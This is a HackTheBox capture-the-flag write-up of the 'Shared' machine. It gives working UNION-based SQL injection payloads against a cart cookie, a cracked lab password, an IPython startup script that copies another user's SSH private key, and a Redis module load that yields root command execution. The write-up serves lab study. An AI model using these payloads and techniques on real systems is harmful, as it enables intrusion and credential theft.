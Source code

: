 +++
author = "Khaled Ngm"
title = "Shared write-up (HackTheBox)"
date = "2022-10-29"
description = ""
+++

# Shared write-up HackTheBox
![shared](/images/shared/shared.png)

### 1. Port Scanning and Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.172``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 08:14 EDT
Nmap scan report for 10.10.11.172
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:e8:35:f4:69:5f:c2:e2:0e:27:46:e2:a6:b6:d8:65 (RSA)
|   256 cf:fc:c4:5d:84:fb:58:0b:be:2d:ad:35:40:9d:c3:51 (ECDSA)
|_  256 a3:38:6d:75:09:64:ed:70:cf:17:49:9a:dc:12:6d:11 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://shared.htb
443/tcp open  ssl/http nginx 1.18.0
|_http-title: Did not follow redirect to https://shared.htb
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=*.shared.htb/organizationName=HTB/stateOrProvinceName=None/countryName=US
| Not valid before: 2022-03-20T13:37:14
|_Not valid after:  2042-03-15T13:37:14
| tls-alpn: 
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.55 seconds

```
* First of all lets add  ``shared.htb`` to /etc/hosts file .
* Then when I navigate to ``http://shared.htb`` and added an Item at cart and hover
 at **[proceed to checkout button]** I found that redirect me to subdomain ``checkout.shared.htb``

 ![sub](/images/shared/sub.png)
 * let's add ``checkout.shared.htb`` also to ``/etc/hosts``


* When I proceeded to page I found a **table** that host qty and price of product.
* I clicked pay but nothing happened , it shows only an static alert that payment recieved .
* I opened **Burp** to see request and found that the QTY and Item are stored at cookie ``custom_cart`` parameter .
![cart](/images/shared/cart.png)
* I tried change the QTY and Item and that change in table , after a few minutes I found that it's vulnerable to ``sqli`` .
* We can use ``wappalyzer extension `` that identify the database ``MySQL``.

   ![cart](/images/shared/db.png)
## Exploitation
### SQLi Payloads

* ``{"BTAPXNX4' UNION SELECT NULL-- -":"1"}`` >> Nothing returned at table.
* ``{"BTAPXNX4' UNION SELECT NULL,NULL-- -":"1"}`` >> Nothing.
* ``{"BTAPXNX4' UNION SELECT NULL,NULL,NULL-- -":"1"}`` >>>> Returnd the Item and QTY so there are 3 columns at this table .

### Return The name of Available tables.

* We can retrieve table info from information_schema.tables
* ``{"' UNION SELECT NULL,table_name,NULL FROM information_schema.tables -- -":"1"}`` but that show me only one table .
* let's use ``group_concat()`` to get all tables name concatanated ``{"' UNION SELECT NULL,group_concat(table_name),NULL FROM information_schema.tables -- -":"1"}`` .

   ![sqli](/images/shared/sqli.png)

* As we can see , we got aa table caled ``user``.

### Return The name of Available columns for ``user`` table .

* We can retrieve table info from information_schema.columns
* ``{"' UNION SELECT NULL,group_concat(column_name),NULL FROM information_schema.columns WHERE table_name='user'-- -":"1"}``

    ![col](/images/shared/col.png)

* ``{"' UNION SELECT NULL,username,NULL FROM user -- -":"1"}`` >> james_mason
* ``{"' UNION SELECT NULL,password,NULL FROM user -- -":"1"}`` >> fc895d4eddc2fc12f995e18c865cf273
* I found that md5 hash was easy to crack using any online tools .
* We have now ``james_mason`` and ``Soleil101`` to log into ``ssh``. 

## Privilege Escalation (User)

* Now we have to escalate our priveleges to ``dan_smith`` user to read user.txt file .

```
ls -la
total 3856
drwxr-xr-x 6 james_mason james_mason    4096 Oct 30 08:51 .
drwxr-xr-x 4 root        root           4096 Jul 14 13:46 ..
lrwxrwxrwx 1 root        root              9 Mar 20  2022 .bash_history -> /dev/null
-rw-r--r-- 1 james_mason james_mason     220 Mar 20  2022 .bash_logout
-rw-r--r-- 1 james_mason james_mason    3526 Mar 20  2022 .bashrc
drwx------ 3 james_mason james_mason    4096 Oct 30 08:51 .gnupg
drwxr-xr-x 2 james_mason james_mason    4096 Oct 28 11:42 .ipython
-rw-r--r-- 1 james_mason james_mason  827827 Oct 13 16:41 linpeas.sh
drwxr-xr-x 3 james_mason james_mason    4096 Oct 29 07:54 .local
-rw-r--r-- 1 james_mason james_mason     807 Mar 20  2022 .profile
-rwxr-xr-x 1 james_mason james_mason 3078592 Oct 28 02:15 pspy64
drwx------ 2 james_mason james_mason    4096 Oct 28 11:48 .ssh
```
* First I used [pspy64]('https://github.com/DominicBreuker/pspy').
* pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute .
* I found That ipython is running with ``UID=1001`` which belongs to developer . 
* Let's know the version of ipython using ``ipython --version`` >> 8.0.0 .
* After a minutes of search I found this [repo]('https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x') that disclose an arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another .

```
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo "import os;os.system('cat ~/.ssh/id_rsa > /tmp/dan.key')" > /opt/scripts_review/profile_default/startup/run.py
```

   ![key](/images/shared/danKey.png)
* Now we can login as dan_smith ``chmod 600 dan.key; ssh -i dan.key dan_smith@shared.htb`` .

## Privilege Escalation (Root)

* First I executed [linpeas.sh](https://github.com/topics/linpeas) script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts .

* I found a binary file that belong to root and readable by me .

    ![redis](/images/shared/redis.png)
* Befor Using ``redis-cli`` we have to know first ``username`` and ``password`` to authenticate .
* I used String Command to try to look at an hardcoded password and I wasn't able to identify that , so I downloaded the file locally and executed it .
* ``chmod +x redis_connector_dev ; ./redis_connector_dev`` but I got nothing.
* I started listening on ``6379`` port that redis hosted on and run binary again .

    ![auth](/images/shared/auth.png)
* I got password ``F2WHqJUz2WEz=Gqq`` and default username is ``default`` .
* After minutes of reading about redis pentesting at [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module) I found many methods to explit it .
* I tried to upload php webshell via redis-cli but it failed for me .
* So let's use ``load redis module`` technique .

    ![module](/images/shared/module.png)

* As we don't have git at our htb machine we will clone [exploit](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) locally and transfer it to the machine ``scp -r -i id_rsa.key /path/to/directory user@machine_b_ipaddress:/path/to/destination``.

* Go to RedisModules-ExecuteCommand folder and run command ``make``.

* let's run redis-cli to load module .

```
127.0.0.1:6379> AUTH default F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> module load /home/dan_smith/RedisModules-ExecuteCommand/src/module.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
```
* Now we are root :)
## Resources

* https://github.com/payloadbox/sql-injection-payload-list
* https://github.com/topics/linpeas
* https://github.com/DominicBreuker/pspy
* https://www.cve.org/CVERecord?id=CVE-2022-21699
* https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
